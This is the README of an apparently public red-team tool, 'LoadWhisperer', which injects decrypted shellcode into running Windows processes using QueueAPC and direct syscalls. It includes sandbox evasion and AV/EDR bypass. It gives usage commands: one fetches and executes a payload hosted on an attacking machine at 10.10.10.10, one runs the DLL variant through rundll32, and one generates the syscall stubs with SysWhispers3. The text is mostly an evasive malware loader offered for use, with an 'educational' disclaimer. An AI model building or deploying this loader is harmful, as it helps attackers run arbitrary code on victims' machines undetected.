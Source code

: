 # LoadWhisperer
LoadWhisperer uses direct syscalls to inject shellcode into a currently running process using the QueueAPC method, after sandbox detection and evasion and decrypting AES-encrypted shellcode. Read more about the QueueAPC method in another C# project I did [here](https://github.com/lemmyz4n3771/QueueUserAPC-ProcInjection).

## Update 3

Added a second method of process injection.

## Update 2

You can now host large payloads on your attacking machine to then download and execute using LoadWhisperer as an executable. This is pretty useful, given that Visual Studio doesn't like large array buffers and a smaller binary is more versatile. Example usage:
```
C:\temp>LoadWhisperer.exe 10.10.10.10 80 pe.enc key.bin
```

## Update 1

Added DLL functionality to LoadWhisperer. Build the solution and test it directly like so:
```
rundll32.exe .\LoadWhispererDLL.dll, LoadWhisperer
```
You can also run the dll using the technique shown [here](https://github.com/lemmyz4n3771/Reflective-DLL-Injection).

## Using Direct Syscalls to NTDLL to Evade EDR Detection
When calling the Windows API, the usual approach is to call a function in some dynamically-linked library (DLL), which then calls an NT-prefixed function (such as `NtProtectVirtualMemory`) in `NTDLL.DLL`, which will then execute a syscall that performs the requested functionality. It is these DLLs that EDRs hook into to examine the parameters of whatever function is called. 

With this understanding, you can help bypass AV/EDR detection by avoiding calling these hooked libraries as discussed in [EDR Evasion Primer for Red Teamers](https://conference.hitb.org/hitbsecconf2022sin/materials/D1T1%20-%20EDR%20Evasion%20Primer%20for%20Red%20Teamers%20-%20Karsten%20Nohl%20&%20Jorge%20Gimenez.pdf):

![injection_technique](injection_techniques.png)

You can accomplish this using [SysWhispers3](https://github.com/klezVirus/SysWhispers3), which will create the header, source, and assembly instruction files that will make these calls through your own project, instead of using `NTDLL.DLL`:

```
 $ python syswhispers.py --preset all --out-file temp/syscalls_all -v
                                                       
                  .                         ,--.       
,-. . . ,-. . , , |-. o ,-. ,-. ,-. ,-. ,-.  __/       
`-. | | `-. |/|/  | | | `-. | | |-' |   `-. .  \      
`-' `-| `-' ' '   ' ' ' `-' |-' `-' '   `-'  '''       
     /|                     |  @Jackson_T              
    `-'                     '  @modexpblog, 2021       

                      Edits by @klezVirus,  2022       
SysWhispers3: Why call the kernel when you can whisper?


All functions selected.

Complete! Files written to:
        temp/syscalls_all.h
        temp/syscalls_all.c
        temp/syscalls_all_-asm.x64.asm
Press a key to continue...
```

## Usage
Run `encrypt.py` on your payload binary to generate the AES key and ciphertext to then include in LoadWhisperer.cpp. Then build LoadWhisperer.sln and use the resulting `.exe`.


## Disclaimer
This tool was designed for educational and demonstrative purposes. I'm not liable as to how you use it.